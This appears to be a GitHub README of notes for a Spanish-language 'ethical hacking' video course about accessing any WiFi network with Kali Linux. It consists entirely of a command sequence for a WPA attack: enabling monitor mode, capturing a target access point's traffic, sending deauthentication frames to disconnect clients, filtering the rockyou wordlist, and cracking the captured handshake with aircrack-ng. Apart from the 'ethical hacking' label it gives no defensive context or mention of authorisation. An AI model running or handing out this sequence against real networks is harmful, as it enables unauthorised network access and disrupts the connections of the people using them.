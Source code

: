# Kalilinux
## ¡Revelando los Secretos del WiFi! Accede a Cualquier Red con Kali Linux | Hacking Ético" | Curso Git &amp; GitHub |  The Coffee Hack | 1 Video

### mkdir testscan
### iwconfig
### airmon-ng check kill
### airmon-ng start [interfaz]
### aireplay-ng --test [interfaz]
### airodump-ng [interfaz]
### airodump-ng -c [canal] -w [nombre_archivo] --bssid [MAC AP] [Interfaz]
### aireplay-ng -0 [cantidad_peticiones] -a [mac_wifi] -c [Mac_to_disconect] [interfaz]
### airmon-ng stop [interfaz]
### cp /usr/share/wordlists/rockyou.txt.gz ./
### gunzip rockyou.txt.gz
### wc -l rockyou.txt
### cat rockyou.txt | sort | uniq | pw-inspector -m 8 -M 63 [nuevo_nombre.txt]
### aircrack-ng -w nuevo_nombre.txt [file.cap]
